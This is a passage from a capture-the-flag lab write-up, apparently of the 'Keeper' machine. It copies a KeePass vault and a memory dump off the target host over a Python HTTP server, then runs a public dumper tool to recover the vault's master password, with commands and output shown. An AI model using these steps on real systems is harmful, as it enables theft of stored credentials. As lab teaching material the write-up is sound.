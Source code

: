 After unzipping, we see the original keepass database `passcodes.kdbx`, and the error dump. Typically, the keepass file is all we care about since it stores the passwords. However, when researching how to extract passwords from keepass, we might find a [recent vulnerability that involves a dump file](https://github.com/vdohney/keepass-password-dumper). This github project is designed to extract the master password used during the creation of the dump file, which can be used to open the original keepass vault! To use, it is best for me to transfer the vault and dump file to my system. To mix it up a little, I decided to transfer via python simple http server. This time it is a lot quicker, thankfully!

```
lnorgaard@keeper:/dev/shm$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```
And now I can wget the files from my kali:
```
──(kali㉿kali)-[~/Documents/Keeper]
└─$ wget http://keeper.htb:8888/passcodes.kdbx
--2024-02-06 20:37:11--  http://keeper.htb:8888/passcodes.kdbx
Resolving keeper.htb (keeper.htb)... 10.10.11.227
Connecting to keeper.htb (keeper.htb)|10.10.11.227|:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3630 (3.5K) [application/octet-stream]
Saving to: ‘passcodes.kdbx’

passcodes.kdbx               100%[==============================================>]   3.54K  --.-KB/s    in 0s      

2024-02-06 20:37:11 (625 MB/s) - ‘passcodes.kdbx’ saved [3630/3630]
```
The same is done for the dump file.

When launching the password dumper from kali, we might first get an error about incompatible .NET kits:
```
┌──(kali㉿kali)-[~/Documents/Keeper/keepass-password-dumper]
└─$ dotnet run ../KeePassDumpFull.dmp     
/usr/share/dotnet/sdk/6.0.400/Sdks/Microsoft.NET.Sdk/targets/Microsoft.NET.TargetFrameworkInference.targets(144,5): error NETSDK1045: The current .NET SDK does not support targeting .NET 7.0.  Either target .NET 6.0 or lower, or use a version of the .NET SDK that supports .NET 7.0. [/home/kali/Documents/Keeper/keepass-password-dumper/keepass_password_dumper.csproj]                                                                                                 

The build failed. Fix the build errors and run again.
```
To resolve this issue, I changed the target framework in `csproj` to net6.0 from net7.0:
```
┌──(kali㉿kali)-[~/Documents/Keeper/keepass-password-dumper]
└─$ cat keepass_password_dumper.csproj 
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

</Project>
```
This might not always work, but here it is good enough.
```
┌──(kali㉿kali)-[~/Documents/Keeper/keepass-password-dumper]
└─$ dotnet run ../KeePassDumpFull.dmp 
Found: ●●d
Found: ●●d
Found: ●●d
```